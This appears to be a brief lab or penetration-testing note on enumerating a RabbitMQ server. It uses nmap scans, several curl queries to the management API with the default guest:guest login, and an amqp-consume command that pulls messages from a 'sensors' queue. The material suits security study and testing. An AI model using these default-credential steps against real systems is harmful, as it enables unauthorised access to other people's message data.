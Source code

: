 to find services running we just nmap all ports

Interact with RabbitMQ http api to pull info: 
`curl -q -XGET http://guest:guest@192.68.208.3:15672/api/overview | python -m json.tool`
`curl -q -XGET http://guest:guest@192.68.208.3:15672/api/cluster-name`  
`curl -q -XGET http://guest:guest@192.68.208.3:15672/api/vhosts`  
`curl -q -XGET http://guest:guest@192.68.208.3:15672/api/vhosts | python -m json.tool | grep name`  
`curl -q -XGET http://guest:guest@192.68.208.3:15672/api/exchanges/%2F/amq.topic | python -m json.tool`  
`curl -q -XGET http://guest:guest@192.68.208.3:15672/api/exchanges | python -m json.tool | grep name | wc -l`  
`curl -q -XGET http://guest:guest@192.68.208.3:15672/api/queues | python -m json.tool | grep name`
`curl -q -XGET
http://guest:guest@192.68.208.3:15672/api/exchanges/%2F/amq.topic | python -m json.tool`  
Further enumerate by running amqp script against ports:  
`nmap --script amqp-info -p 5672 192.161.129.3`  
Retrieve messages from queue:  
save below script:  
```
#!/bin/bash
read line
echo $line
```  
Then run `amqp-consume --url amqp://guest:guest@192.161.129.3 -q sensors ./get.sh`
